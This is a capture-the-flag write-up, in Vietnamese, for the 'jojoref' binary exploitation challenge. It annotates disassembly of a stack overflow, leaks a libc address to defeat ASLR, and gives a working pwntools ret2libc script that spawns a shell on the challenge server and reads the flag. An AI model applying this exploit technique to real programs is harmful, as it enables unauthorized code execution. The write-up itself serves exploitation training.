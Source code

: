 **PZ**
---
Binary Exploitation

Description:
---
> Just a JoJo reference.

Solution:
---
Bài này thì khó hơn bài trước :joy: Chạy thử tiếp nào :point_down:

```bash
root@kali:~# ./jojoref
Pwn: Oh? You're approaching me? Instead of running away, you're coming right to me?
You: yes
[You said: yes]
Pwn: Oh ho... then come as close as you want
You: ok girl
root@kali:~#
```

Con này stripped rồi nên không dùng `gdb` để xem `main` được, dùng `objdump` hay cái gì đó khác nhé.
> Radare2, IDA hay Binary Ninja...
```asm
...

add     esp, 10h
mov     eax, ds:(stdout_ptr - 804A000h)[ebx]
mov     eax, [eax]
sub     esp, 8
push    0               ; buf
push    eax             ; stream
call    _setbuf
add     esp, 10h
call    sub_804872B
call    sub_8048676; <---| Chỗ này nhé, còn lại thì bình thường rồi.
mov     eax, 0
lea     esp, [ebp-8]
pop     ecx
pop     ebx
pop     ebp
lea     esp, [ecx-4]
retn
```

Xem hàm `sub_8048676` nào:
```asm
.text:08048676 buf             = byte ptr -1Ch
.text:08048676 var_C           = dword ptr -0Ch
.text:08048676 var_4           = dword ptr -4

...

.text:08048688                 mov     eax, offset unk_804A040; <--- Nhớ địa chỉ này không ??
.text:0804868E                 mov     eax, [eax]
.text:08048690                 mov     [ebp+var_C], eax; <--- Lấy số random lưu vào [ebp+var_C]
.text:08048693                 sub     esp, 0Ch
.text:08048696                 lea     eax, (aPwnOhYouReAppr - 804A000h)[ebx] ; "Pwn: Oh? You're approaching me? Instead"...
.text:0804869C                 push    eax             ; s
.text:0804869D                 call    _puts
.text:080486A2                 add     esp, 10h
.text:080486A5                 sub     esp, 0Ch
.text:080486A8                 lea     eax, (aYou - 804A000h)[ebx] ; "You: "
.text:080486AE                 push    eax             ; format
.text:080486AF                 call    _printf
.text:080486B4                 add     esp, 10h
.text:080486B7                 sub     esp, 8
.text:080486BA                 push    30h             ; nbytes <--- Lại cho nhập 0x30 bytes
.text:080486BC                 lea     eax, [ebp+buf]  ;        <--- Trong khi buffer chỉ có 0x1C bytes
.text:080486BF                 push    eax             ; buf
.text:080486C0                 call    sub_8048612     ;  <--- Hàm nhập và thay kí tự '\n' ở cuối chuỗi thành '\0'
.text:080486C5                 add     esp, 10h
.text:080486C8                 mov     eax, offset unk_804A040
.text:080486CE                 mov     eax, [eax]
.text:080486D0                 cmp     [ebp+var_C], eax ; <--- Kiểm tra lại xem số random lưu ở [ebp+var_C] có bị thay đổi không
.text:080486D3                 jz      short loc_80486DA  
.text:080486D5                 call    sub_80485B6  ; <--- Nếu đổi thì gọi hàm này

...
```
Xem nếu số random bị thay đổi thì ra cái gì nhé:
```asm
...
.text:080485C8                 sub     esp, 8
.text:080485CB                 push    0               ; oflag
.text:080485CD                 lea     eax, (aFlag - 804A000h)[ebx] ; "flag"
.text:080485D3                 push    eax             ; file
.text:080485D4                 call    _open  ; <--- Mở ra flag
.text:080485D9                 add     esp, 10h
.text:080485DC                 mov     [ebp+fd], eax
.text:080485DF                 cmp     [ebp+fd], 0
.text:080485E3                 js      short loc_8048608
.text:080485E5                 sub     esp, 4
.text:080485E8                 push    27h             ; nbytes
.text:080485EA                 lea     eax, [ebp+buf]
.text:080485ED                 push    eax             ; buf
.text:080485EE                 push    [ebp+fd]        ; fd
.text:080485F1                 call    _read  ; <--- Đọc ra flag
.text:080485F6                 add     esp, 10h
.text:080485F9                 sub     esp, 0Ch
.text:080485FC                 lea     eax, [ebp+buf]
.text:080485FF                 push    eax             ; s
.text:08048600                 call    _puts  ; <--- In ra flag, ez 15' gg :))
.text:08048605                 add     esp, 10h
...
```
Có vẻ như chỉ cần ghi đè qua `[ebp+var_C]` là ra flag. Ok đập phát chết luôn:
```bash
root@kali:~# python -c 'print "A"*18' | nc 3.91.78.13 10001
Pwn: Oh? You're approaching me? Instead of running away, you're coming right to me?
You: PTITCTF{ Well yes , but actually no. }   # <--- Bị lừa rồi ... 

root@kali:~# 
```

Thôi lại xem tiếp nếu không gọi `sub_80485B6` thì `loc_80486DA` có cái gì :sweat_smile: :
```asm
...
.text:080486DA                 sub     esp, 8
.text:080486DD                 lea     eax, [ebp+buf]
.text:080486E0                 push    eax
.text:080486E1                 lea     eax, (aYouSaidS - 804A000h)[ebx] ; "[You said: %s]\n"
.text:080486E7                 push    eax             ; format
.text:080486E8                 call    _printf
.text:080486ED                 add     esp, 10h
.text:080486F0                 sub     esp, 0Ch
.text:080486F3                 lea     eax, (aPwnOhHoThenCom - 804A000h)[ebx] ; "Pwn: Oh ho... then come as close as you"...
.text:080486F9                 push    eax             ; s
.text:080486FA                 call    _puts
.text:080486FF                 add     esp, 10h
.text:08048702                 sub     esp, 0Ch
.text:08048705                 lea     eax, (aYou - 804A000h)[ebx] ; "You: "
.text:0804870B                 push    eax             ; format
.text:0804870C                 call    _printf
.text:08048711                 add     esp, 10h
.text:08048714                 sub     esp, 8
.text:08048717                 push    30h             ; nbytes
.text:08048719                 lea     eax, [ebp+buf]
.text:0804871C                 push    eax             ; buf
.text:0804871D                 call    sub_8048612 ; <--- Lại hàm nhập, giống như đoạn code trước khi jmp
.text:08048722                 add     esp, 10h
.text:08048725                 nop
.text:08048726                 mov     ebx, [ebp+var_4]
.text:08048729                 leave
.text:0804872A                 retn
```
Lần thứ 2 nhập thì không check số random, có lẽ nên khai thác vào chỗ này.

Bài này thì người ta cho sẵn chuỗi `"/bin/sh"` ở `0x8048890` rồi nên 
gợi ý là sẽ return về `system("/bin/sh")`. Cơ mà lại không cho địa chỉ của `system`, và server bật `ASLR` nên cần phải tính thông qua địa chỉ của hàm nào đó đã cho.

Để ý trong suốt quá trình hàm `sub_8048676` này làm việc không thấy đả động gì đến vị trí `[ebp-8]`, có gì đó mờ ám chăng ?
```shell
Breakpoint 1, 0x0804867a in ?? ()
gdb-peda$ x/x $ebp-8
0xffffd370:	0xf7fadd80
gdb-peda$ info proc map
process 1764
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /root/jojoref
	 0x8049000  0x804a000     0x1000        0x0 /root/jojoref
	 0x804a000  0x804b000     0x1000     0x1000 /root/jojoref
	0xf7dd3000 0xf7dec000    0x19000        0x0 /usr/lib32/libc-2.28.so # <--- địa chỉ cơ sở libc nhé
	0xf7dec000 0xf7f3a000   0x14e000    0x19000 /usr/lib32/libc-2.28.so
	0xf7f3a000 0xf7faa000    0x70000   0x167000 /usr/lib32/libc-2.28.so
	0xf7faa000 0xf7fab000     0x1000   0x1d7000 /usr/lib32/libc-2.28.so
  ...
  
gdb-peda$ p/x 0xf7fadd80-0xf7dd3000
$1 = 0x1dad80
gdb-peda$ quit
root@kali:~# readelf -s /usr/lib32/libc-2.28.so | grep 1dad80
   905: 001dad80   152 OBJECT  GLOBAL DEFAULT   31 _IO_2_1_stdout_@@GLIBC_2.1 # <--- :))
root@kali:~#
```
Rồi thế là xong, chạy nhiều lần thì nó vẫn ra hàm đấy thôi. Còn lưu ý nữa là con này biên dịch bằng `GCC 7.3.0` cho nên việc tính ra system có thể bị sai,
vì kali của mình đang chạy `GCC 8.3.0`, chuyển qua ubuntu cho chắc:
```bash
zeltrax@z-pc:~$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep stdout
   783: 001d8ea0    80 OBJECT  GLOBAL DEFAULT   34 _IO_stdout_@@GLIBC_2.0
   895: 001d8d80   152 OBJECT  GLOBAL DEFAULT   34 _IO_2_1_stdout_@@GLIBC_2.1 # <--- Đây
  1168: 001d8e1c     4 OBJECT  GLOBAL DEFAULT   34 stdout@@GLIBC_2.0
zeltrax@z-pc:~$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
   254: 00129640   102 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.0
   652: 0003d200    55 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1510: 0003d200    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0 # <--- Và đây
zeltrax@z-pc:~$
```
Bài này phải xử lí run-time để leak ra `DWORD PTR [ebp-8]` nên phải code thôi:
```python
from pwn import *

#p = process("./jojoref")
p = remote('3.91.78.13', 10001)
s1 = "A"*16
print p.recvline()
print p.recv(5)

p.send(s1)

print p.recv(11+16)
urandom = p.recv(4)
ebp_8 = p.recv(4)

print "random: %s" % hex(u32(urandom))
print "$ebp-0x8: %s" % hex(u32(ebp_8))
system = u32(ebp_8)-(0x1d8d80-0x3d200)
print "system: %s" % hex(system)

s2 = "A"*32 + p32(system) + "JUNK" + p32(0x08048890)
print p.recvlines(2)
print p.recv(5)

p.sendline(s2)
p.interactive()
```
Nhớ flag fake không? Phải là flag2 cơ :grin:
```bash
[+] Opening connection to 3.91.78.13 on port 10001: Done
Pwn: Oh? You're approaching me? Instead of running away, you're coming right to me?

You: 
[You said: AAAAAAAAAAAAAAAA
random: 0xc09dc5bd
$ebp-0x8: 0xf7ecdd80
system: 0xf7d32200
]

Pwn: 
[*] Switching to interactive mode
Oh ho... then come as close as you want
You: $ cat flag2
PTITCTF{w3ll_y3s_0utst4nd1ng_m0v3_but_1t's_ill3g4l}
$ 
```
